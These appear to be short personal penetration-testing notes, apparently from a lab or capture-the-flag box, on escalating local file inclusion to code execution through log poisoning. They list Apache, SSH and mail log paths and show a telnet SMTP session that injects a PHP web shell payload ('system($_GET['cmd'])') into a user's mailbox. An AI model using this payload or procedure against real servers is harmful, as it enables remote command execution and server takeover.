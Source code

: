 LFI becomes RCI

We need to validate different logs files:

`/var/log/apache2/access.log` *apache's logs locaiton. We could look for useragent to manipulate it to be a malicous php code*

`/var/log/auth.log` *ssh's logs location*

## SMPT Log poisoning

`/var/mail/helios` *logs smtp stored. The idea is to create log that can be interpreted in php. For example if LFI is produced in a PHP web, creating logs this a PHP executable, by injecting it to site web, it could interpret commands.*

We can test by telnet:
$telnet 192.168.195.54 25
telnet>MAIL FROM: blinds
telnet>RCPT TO: helios *user found in server*
telnet>DATA
telnet><<?php system($_GET['cmd']); ?>
telnet>.
telnet>quit

![[Pasted image 20240322142902.png]]

We verify the logs and there is no content:






